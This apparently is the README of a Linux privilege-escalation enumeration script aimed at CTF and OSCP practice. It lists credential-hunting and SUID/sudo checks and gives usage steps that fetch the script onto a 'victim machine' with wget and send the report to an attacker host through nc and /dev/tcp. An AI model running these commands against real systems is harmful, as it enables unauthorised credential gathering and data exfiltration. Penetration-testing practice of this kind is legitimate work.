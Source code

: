 # LINUX PRIVILEGE ESCALATION SCRIPT

This script has been written from experiences. As far as I was rooting linux box, I was adding the new way to detect the escalation privileges. 

**The strength of this script is the fact it doesn't only print information, it does an automatic analysis of information printed in order to show ony the relevant information.**

The script does the following actions

- [x] Print Network Interface configuration
- [x] Locate database config file in /var/www
- [x] Print potentials file containing password in /home or in /var/www
- [x] Check any .htpasswd file
- [x] Check credentials file in /etc/fstab
- [x] Check readable mail
- [x] Check last 10 min file edited **(Information useful for cron jobs)**
- [x] Check relevant processes and sort them by users
- [x] Check users and tell which one have root privileges except the standard root user
- [x] Print root files that can be read and those than can be written  
- [x] Print all readable files in /home
- [x] Check writable configuration files 
- [x] Print non default content of /etc/crontab (to avoid overwhelming information)
- [x] Check sudo rights of the current user
- [x] Check some vulnerable software like chkrootkit and snap
- [x] Print **uncommon** suid file (The default suid program like ping are removed)
- [x] Check LD_PRELOAD
- [x] Check program with capabilities 
- [x] Check docker users
- [x] Check lxd users
- [x] Check users with multiples groups
- [x] Check database version by submitting default credentials 
- [x] Check if mysql is running with root user
- [x] Check last login 
- [x] Print global listening connexion and local listening connexion **(relevant information of port forwaring)**
- [x] Print system information for kernel exploit
- [x] List installed compilers for eventual kernel exploit

## Usage 
There are many ways easy to run this script. 
1. Download it and host it in your attacking machine 
2. Download it from you attacking machine and run. Assuming you attacker machine is 192.168.43.1, 
	1. You can open a web server doing `sudo python3 -m http.server 80`
	2. Run it on your victim machine doing 
	```
	cd \tmp
	wget 192.168.43.1\linuxprivesc.sh
	bash linuxprivesc.sh > report.txt
	```

## Note
You don't have to direct the output in report.txt but I higly recommend it for analysis purpose. You can upload it back on your attacking machine by doing the following 
```
#On your atracking machine 
nc -nlvp 1111 > report.txt

#On your victim machine
cat report.txt > /dev/tcp/192.168.43.1/1111
```

**Remember to change the IP address by your own IP address**

*Sometimes some directories are printed in the repo.txt while they are not too useful. For example too many logs from /snap/ or bunch of files in /var/www/. When this happen just do the following:*

Taking example of /snap/ `cat report.txt | grep -v '/snap/' > report_clean.txt` 

Assuming you have many directories that you want to remove (Ex: /var/www/html, /snap/), you can do it in one command `cat report.txt | grep -v '/snap/\|/var/www/html' > report_clean.txt`

As said previously, this script has been written from experiences. I've root more that 100 machines on vulhub and more than 50 on HackTheBox. You can check my HackTheBox profile [here](https://www.hackthebox.eu/home/users/profile/171842). 


## Test your privesc skills  with this script on the folowing boxes (good for OSCP preparation) 
- https://github.com/Ignitetechnologies/Web-Application-Cheatsheet/blob/master/README.md

- https://www.hackingarticles.in/privilege-escalation-cheatsheet-vulnhub/

- https://github.com/Ignitetechnologies/Privilege-Escalation



## References
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/rebootuser/LinEnum
- https://github.com/AlessandroZ/BeRoot
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/pentestmonkey/unix-privesc-check 

